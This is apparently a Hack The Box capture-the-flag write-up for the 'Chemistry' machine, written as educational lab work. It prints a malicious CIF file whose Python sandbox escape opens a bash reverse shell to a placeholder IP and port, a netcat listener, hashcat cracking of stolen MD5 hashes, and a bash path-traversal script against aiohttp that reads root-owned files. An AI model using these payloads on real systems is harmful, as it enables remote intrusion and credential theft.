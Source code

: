 
![Logo](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/Logo.png)



# Chemistry HTB

Objective: Hack the Linux machine, level: easy.


## Procedure
I know why you're here. You need advice because you're still figuring this stuff out. Trust me, I was there too. We all hit walls sometimes. For example, it took me two hours just to grab the root flag.

## Enumeration

Alright, enumeration is key. Using nmap, we identify the services and other useful info.

```sh
 sudo nmap -sS -sVC -Pn -A --min-rate 5000 -n -p- -vvv 10.10.11.38 -oN nmap.txt
```

![nmap](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/nmap.png)

The output shows:

| Port             |  Service     |
| -----------------|--------------|
| 22               |SSH           |
|5000              |HTTP         |

Seems like a web issue. Probably need some directory enumeration tools... but nah, don’t need them today.

Let’s check out the web page.

![index](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/index.png)

It’s just a login and register page. Let’s register.

![Register](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/Register.png)

## Ataquing

Oh, we can upload files. This is interesting. Maybe we can drop a reverse shell. Let’s upload a CIF file.

![Upload CIF file](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/Upload%20CIF%20file.png)

Let’s see what’s inside the example.CIF file.

![Link example](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/LinkExample.png)

![Example CIF](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/ExampleCIF.png)

Look for a CVE related to CIF.

![CVE CIF](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/CIF_CVE.png)

Here’s the POC.

![POC](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/vulnerabilityCIF.png)

Nice, now we can modify the example.cif to get a reverse shell.

```sh
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/IP/PORT 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```
Now listen with netcat:
```sh
nc -lvnp PORT
```
**Reminder:**  Don’t forget to change the ports and IP!

Now, upload the file and hit View.

![UploadAndView](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/uploadandViewCIF.png)

We’re in. Hold up... what’s this? A sqlite file? Haha, let’s grab it and see what’s inside.

![Looking app](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/appTesting.png)

** For convenience, spawn a bash shell with: **```python3 -c "import pty;pty.spawn('/bin/bash')" ```

Inside, we see user hashes. ChatGPT says the hash type is MD5, so let’s fire up hashcat.

![Looking hash](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/lookinghashrosainbrute.png)

Let’s attack the hash with hashcat.

```sh
sudo hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

![attacking the hash](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/hashattack.png)

## Privilage escalation

Nice, we’ve got the password for "rose." Let’s try logging in via SSH.

```sh
sudo -l
```

We can’t use sudo. That’s bad. Let’s check processes and the network.

```sh
ps aux

```

``` sh
netstat -l
```
```sh
ss -tuln
```
![netstat](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/netstat.png)

Port 8080 is running a local HTTP service. Let’s see which version.

```
curl http:127.0.0.1:8080 --head
```

![netstat](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/head.png)

Let’s check for vulnerabilities in aiohttp.

![CVE aiohtt](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/FIndingCVEaiohttp.png)

Boom, found a vulnerability. Let’s upload the exploit where Rose is and tweak it. This web app doesn’t have static files, just assets. Our target? root.txt.
```sh
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done 
```

![rootflag](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/rootflag.png)



We got it. Root flag’s ours.



## 🔗 Links

>* https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f
>* https://github.com/z3rObyte/CVE-2024-23334-PoC


